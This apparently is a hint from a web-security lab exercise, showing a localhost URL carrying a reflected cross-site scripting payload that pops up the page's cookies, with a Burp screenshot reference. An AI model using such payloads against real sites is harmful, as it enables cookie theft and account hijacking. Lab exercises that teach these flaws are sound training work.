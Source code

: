 # Hint 3

Try this 

```javascript
http://localhost:8081/products/direct?param=<script>alert(document.cookie);</script>
```

![](burp.png)
